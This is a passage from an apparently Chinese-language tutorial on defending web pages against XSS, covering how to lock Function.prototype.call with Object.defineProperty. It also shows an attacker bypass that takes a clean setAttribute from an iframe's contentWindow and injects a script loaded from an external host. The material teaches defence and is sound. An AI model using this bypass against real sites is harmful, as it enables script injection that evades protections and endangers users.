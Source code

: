 既然能有隐身那样神奇的魔法，难道就没有其他类似的吗？事实上，Object.defineProperty 里还有很多有意思的功能，除了让属性不可见，还能不可写、不可删等等。

可以让属性不可写？太好了，不如干脆把 Function.prototype.call 和 apply 都事先锁死吧，反正谁会无聊到重写它们呢。

```js
Object.defineProperty(Function.prototype, 'call', {
	value: Function.prototype.call,
	writable: false,
	configurable: false,
	enumerable: true
});

// apply 也一样
```

马上看看效果：

```js
Function.prototype.call = function() {
	alert('hello');
};
console.log(Function.prototype.call);
```

果然还是

```js
function call() { [native code] }
```
[Run](http://jsfiddle.net/zjcqoo/YFBVn/)


现在，我们大可放心的使用 call 和 apply，再也不用鼓捣那堆随机属性了。

不过这种随机+隐藏的属性，今后还是有用武之地的，常常用来给公开的对象做个秘密的记号，所以没有白折腾。

到此，我们终于可以松口气了。


## 新页面反射

别高兴的太早，真正的难题还在后面呢。

既然人家想破解，是会用尽各种手段的，并不局限于纯脚本。因为这是在网页里，攻击者们还可以呼唤出各种变幻莫测的浏览器功能，来躲避我们。

最简单的，就是创建一个框架页面，然后通过 contentWindow 即可获得一个全新的环境：

```js
// 反射出纯净的接口
var frm = document.createElement('iframe');
document.body.appendChild(frm);
var raw_fn = frm.contentWindow.Element.prototype.setAttribute;

// 创建脚本
var el = document.createElement('script');
raw_fn.call(el, 'SRC', 'http://www.etherdream.com/xss/alert.js');
document.body.appendChild(el);
```
[Run](http://jsfiddle.net/zjcqoo/886ub/)
